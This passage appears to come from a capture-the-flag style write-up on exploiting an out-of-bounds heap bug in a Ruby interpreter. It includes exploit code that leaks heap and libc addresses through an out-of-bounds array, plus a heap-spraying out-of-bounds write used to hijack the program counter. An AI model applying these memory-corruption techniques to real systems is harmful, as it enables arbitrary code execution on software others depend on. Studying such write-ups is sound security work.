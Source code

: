 ```
    end
    if touint($arr[i+1])&0xff00 == 0x5500 and touint($arr[i+2]) == payload_size
        $heapaddr=touint($arr[i+1])<<32
        $heapaddr+=touint($arr[i])
    end
    if touint($arr[i+2])==0xae57 and $idx==0
    	$idx=i
    end
    i+=2
end
if not $heapaddr
    puts "[-]leak heap failed"
    exit
end
puts "[+]heap addr = 0x"+$heapaddr.to_s(16)

if not $libcaddr
    puts "[-]leak libc base failed"
    exit
end
puts "[+]libc base = 0x"+$libcaddr.to_s(16)

if $idx==0
    puts "[-] find idx failed"
    exit
end

``` 

### Control The PC

After we leaked heap address and libc address, it's time to try to control the control flow, I never play with ruby before, and I really don't know which address or which pointer on heap should I overwrite to hijack control flow. so I tried to achieve this using a very xuanxue way:

```
i=0
j=0
payload="A"*4*$ooa_size 

while i<$ooa_size do
    payload_u=u64(payload[j,j+8])
    $arr[i]=toint(payload_u&0xffffffff)
    $arr[i+1]=toint(payload_u>>32)
    i=i+2
    j=j+8
end

```

the code above will make the ruby process crash since we are performing a wayward Out Of bound Write(OOW) on the heap. by varying the initial value of i, we will get several unique crash. some are because heap metadata corruption, some are because the dereference of invalid address, but there are some crashes due to an invalid PC, for example, jmp to 0x4141414141414141. it means we successfully find a way to control PC just by a wayward heap OOW! CCCCCool!, isn't it?
